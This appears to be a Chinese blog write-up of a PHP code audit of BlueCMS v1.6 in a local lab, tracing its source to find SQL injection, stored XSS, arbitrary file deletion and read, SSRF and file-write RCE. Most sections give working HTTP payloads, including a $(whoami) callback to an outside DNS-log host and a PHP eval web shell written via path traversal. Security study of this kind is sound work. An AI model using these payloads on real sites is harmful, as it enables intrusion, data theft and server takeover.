借助 Bluecms V1.6 初试PHP代码审计
借助 Bluecms v1.6 初试PHP代码审计
全局分析
审计思路，写在最前面
- 80/20法则：80%的漏洞存在于20%的代码中（用户输入处理模块）
- 先黑后白：先黑盒测试功能点，再针对性审计代码
- 漏洞优先级：优先检查SQL注入、文件上传、RCE等高风险漏洞模式
- 记录跳过点：对非核心模块做简要记录，后续按需深入
聚焦点
- 入口层：用户输入点（
$_GET/$_POST） - 处理层：危险函数调用（SQL/文件/命令）
- 输出层：未过滤的输出点（XSS风险）
- 框架层：全局机制（路由/过滤/会话）
理解框架/路由极为重要，这关乎后续能不能读懂程序逻辑，快速定位漏洞
版本：  v1.6
环境：Apache2.4.39+MYSQL5.7.56+PHP5.3.29
先照例跟踪前台主页 index.php，index.php 首先进行了常量定义和引入依赖，common.inc.php 是全局公共库文件，index.fun.php 则封装了首页相关的函数
define("IN_BLUE",true);
require_once('include/common.inc.php');
require_once(BLUE_ROOT.'include/index.fun.php');然后，程序几乎一股脑将所有工作：SQL 查询、数组组装、URL 重写、缓存调用等，都写入在 index.php 中，这也是 php 老框架的特点

看 include/common.inc.php，初始化时会对外部输入做一层 addslashes 转义，这里过滤了四种全局变量，在我读过的代码中，的确很多都没有把 $_SERVER 直接放在初始化时过滤处理，但往往在另外获取值时做了过滤，如果不做过滤，那肯定会产生漏洞
if(!get_magic_quotes_gpc())
{
$_POST = deep_addslashes($_POST);
$_GET = deep_addslashes($_GET);
$_COOKIES = deep_addslashes($_COOKIES);
$_REQUEST = deep_addslashes($_REQUEST);
}继续往下就是做很多初始化工作，粗略过一遍就行
接着看一下文件上传函数的封装，include/upload.class.php#img_upload，在面向对象编程时，会将相关功能函数和属性封装到类中，再将类封装入类定义文件中，这类文件的命名规范即 .class.php 形式，如 upload.class.php，内部封装着 Upload() 类
接着仔细阅读 upload.class.php，这里先定义路径变量，然后通过 filetype 比较来确定图片类型，这里很显然能够 MIMI 绕过
private $allow_image_type = array('image/jpeg', 'image/gif', 'image/png', 'image/pjpeg');
private $extension_name_arr = array('jpg', 'gif', 'png', 'pjpeg');
//允许上传的图片类型和图片扩展名
function img_upload($file, $dir = '', $imgname = ''){
if(empty($dir)){
}else{
}
if(!in_array($file['type'],$this->allow_image_type)){
echo '<font style="color:red;">不允许的图片类型</font>';
exit;
//白名单数组形式验证图片类型
}
if(empty($imgname)){
$imgname = $this->create_tempname().'.'.$this->get_type($file['name']);
//这里调用了两个类内函数，跟进
}
if(!file_exists($dir)){
if(!mkdir($dir)){
}
}
$imgname = $dir . $imgname;
if($this->uploading($file['tmp_name'], $imgname)){
}else{
}然后再定义文件名变量，并调用到了两个类方法，逐一了解类方法内的功能实现
include/upload.class.php#create_tempname 是单纯的生成随机数
function create_tempname(){
return time().mt_rand(0,9);
}重点在 include/upload.class.php#get_type，取出最后一个点后字符，并将其与白名单进行比较，取出的字符就是系统写入文件的指定后缀
function get_type($filepath){
$pos = strrpos($filepath,'.');
if($pos !== false){
$extension_name = substr($filepath,$pos+1);
}
if(!in_array($extension_name, $this->extension_name_arr)){
echo '<font style="color:red;">您上传的文件不符合要求,请重试</font>';
exit;
}
return $extension_name;
}回到 img_upload ，经过一系列检查后，最后使用 include/upload.class.php#uploading 直接上传文件
function uploading($tempfile, $target){
if(isset($file['error']) && $file['error'] > 0){
showmsg('上传图片错误');
}
if(!move_uploaded_file($tempfile, $target)){
return false;
}
return true;
}后台逻辑处理和公共库文件与前台差不多
源码审计
前台多处SQL注入
一、
bluecms/ad_js.php第十行仅对代码进行 trim()前后空白符(%20、\t、\n、\r、\0、\v)删除，直接拼接入字符串中并进行 SQL 查询
内部函数没有进行过滤，一路畅通无阻直到执行查询
 
ad_js.php在最开始引用了公共函数库，在后续代码执行前对输入的特殊字符进行转义，但我们这里是数值型注入，并不受影响，同时发现这里仅对四种全局变量进行了过滤，后续字符串注入由此发现
require_once dirname(__FILE__) . '/include/common.inc.php';根据表结构得知为 7 列
mysql> DESCRIBE blue_ad;
+-------------+------------------+------+-----+---------+----------------+
| Field | Type | Null | Key | Default | Extra |
+-------------+------------------+------+-----+---------+----------------+
| ad_id | int(10) unsigned | NO | PRI | NULL | auto_increment |
| ad_name | varchar(40) | NO | | NULL | |
| time_set | tinyint(1) | NO | | 0 | |
| start_time | int(11) | NO | | 0 | |
| end_time | int(11) | NO | | 0 | |
| content | text | NO | | NULL | |
| exp_content | text | NO | | NULL | |
+-------------+------------------+------+-----+---------+----------------+Payoad
/bluecms/ad_js.php?ad_id=-1 union select 1,2,3,4,5,6,version() bluecms/guest_book.php处存在字符型注入
$sql = "INSERT INTO " . table('guest_book') . " (id, rid, user_id, add_time, ip, content) VALUES ('', '$rid', '$user_id', '$timestamp', '$online_ip', '$content')";
$db->query($sql);这里的全局变量  $online_ip是注入点，审计这个洞考验了对项目库文件的了解程度，该变量在全局初始化文件bluecms/include/common.inc.php中被定义
bluecms/include/common.func.php#getip()，可以看到这里通过getenv来获取HTTP请求头，没有经过上面的四种全局变量过滤，那么我们通过HTTP请求头注入字符串，是否就能不被转义，完成注入呢
Apache无法正确解析 X_FORWORDED_FOR、X_FORWARDED等请求头，可能需要调整httpd.conf，这里直接使用 CLIENT_IP解决
POST /bluecms/guest_book.php HTTP/1.1
Host: 192.168.43.169:8088
CLIENT-IP: ',sleep(5))#
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
act=send&content=1
前台存储型XSS
漏洞位置为 bluecms/user.php两百多行，大部分参数都使用 htmlspecialchars进行了转义，但发现 content、descript两个参数并未直接进行转义处理
content用公共库函数文件中的filter_data做了正则替换，但仅仅匹配XSS中个别关键词，换个标签直接绕过
payload
<img src=x onerror=alert(1)>
<ScRiPt>alert(1)</ScRiPt>
descript参数则压根没做处理，直接XSS即可
前台任意文件删除
bluecms/publish.php存在任意文件删除漏洞
elseif($act == 'del_pic')
{
$id = $_REQUEST['id'];
$db->query("DELETE FROM ".table('post_pic').
" WHERE pic_path='$id'");
if(file_exists(BLUE_ROOT.$id))
{
@unlink(BLUE_ROOT.$id);
}
}程序将传参与 BLUE_ROOT 拼接，即与 bluecms根目录拼接，判断如果文件存在，则直接unlink删除文件
在网站上级目录创建 1.txt
http://192.168.43.169:8888/bluecms/publish.php?act=del_pic&id=../1.txt成功删除

后台存储型XSS
和前台一样写法导致的漏洞，不写了

后台多处SQL注入
一、
在 bluecms/admin/ad.php发现SQL注入，这里也是因为对数值型查询处理不当导致的。
当通过全局函数文件进行 addslashes全局过滤时，字符型暂时找不到绕过引号转义的方式，而数值型因为开发疏漏仍然存在注入
关键代码如下
$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
$ad = $db->getone("SELECT ad_id, ad_name, time_set, start_time, end_time, content, exp_content FROM ".table('ad')." WHERE ad_id=".$ad_id);Payload
/bluecms/admin/ad.php?act=edit&ad_id=-1%20union%20select%201,version(),3,4,5,6,7 bluecms/admin/admin_log.php中存在SQL注入
关键代码如下，程序判断传参是否为数组，并将数组传参的值拼接入字符串中执行SQL操作
elseif($act == 'del'){
if($_POST['checkboxes']!=''){
if(is_array($_POST['checkboxes'])){
foreach($_POST['checkboxes'] as $key=>$val){
$sql = "delete from ".table('admin_log')." where log_id = ".$val;
if(!$db->query($sql)){
showmsg('删除日志出错');
}}}else{if(){}}}else{}}因为是数组，所以Payload需要略作变形，这里无回显使用时间盲注形式来测试
POST /bluecms/admin/admin_log.php HTTP/1.1
Host: 192.168.43.169:8088
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
checkboxes[]=-1 OR SLEEP(1)&act=del这里不知名原因  sleep(1)延迟20秒，但稳定都是 20秒
bluecms/admin/article.php也存在SQL盲注
elseif($act == 'del'){
$article = $db->getone("SELECT cid, lit_pic FROM ".table('article')." WHERE id=".$_GET['id']);
$sql = "DELETE FROM ".table('article')." WHERE id=".intval($_GET['id']);
$db->query($sql);
if (file_exists(BLUE_ROOT.$article['lit_pic'])) {
@unlink(BLUE_ROOT.$article['list_pic']);
}
showmsg('删除本地新闻成功', 'article.php?cid='.$article['cid']);
}这里正常了，  sleep(2)延迟两秒
bluecms/admin/nav.php存在SQL
SQL查询
$sql = "select * from ".table('navigate')." where navid = ".$_GET['navid'];
$nav = $db->getone($sql);Payload
/bluecms/admin/nav.php?act=edit&navid=0%20union%20select%201,2,3,4,version(),6
bluecms/admin/model.php、bluecms/admin/ad_phone.php疑似存在SQL注入，但未测试出注入失败的原因
后台SSRF
在 bluecms/admin/us_setting.php中发现SSRF行为，即对外发起HTTP请求，并利用gethostbyname在解析失败时默认为127.0.0.1
关键代码段，该CMS自己写了一个内置函数 us_open
$uc_info = uc_open($uc_config['uc_api'].'/index.php?m=app&a=ucinfo', 500, '', '', 1, $uc_config['uc_ip']);跟进 uc_oepn，在第129行时调用fsockopen发起HTTP请求，而输入可控，尽管必须http://开头，仍然造成了SSRF
Payload
POST /bluecms/admin/uc_setting.php HTTP/1.1
Host: 192.168.43.169:8088
Content-Length: 105
Content-Type: application/x-www-form-urlencoded
uc_api=http://$(whoami).92twaa.ceye.io&uc_admin_pwd=123&uc_ip=http://$(whoami).92twaa.ceye.io&act=install
后台任意文件读取
在 bluecms/admin/tpl_manege.php存在任意文件读取漏洞
fread()中的$file直接被拼接到字符串最后，该参数是外部可控的，并且读取后的内容会通过 template_assign及 Smarty模板渲染到前端，造成了文件内容的读取
/bluecms/admin/tpl_manage.php?act=edit&tpl_name=../../index.php
后台任意文件写入(RCE)
同样在 bluecms/admin/tpl_manege.php存在任意文件写入漏洞
$tpl_name可控，可以通过../../形式覆盖或创建任意文件
$tpl_content也可控使得能做到自定义文件内容写入，bluecms/include/common.fun.php#deep_stripslashes作用是去除转义反斜线，如\'变为'，相当于全局过滤 deep_addslashes 被抵消，当然仅仅写入一句话马也无需抵消
POST /bluecms/admin/tpl_manage.php HTTP/1.1
Host: 192.168.43.169:8088
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
act=do_edit&tpl_name=../../1.php&tpl_content=<?php eval($_POST[0]);?>
PS. 定个短阶目标，深入学习和分析国内统治级框架 ThinkPHP，Let’s Go！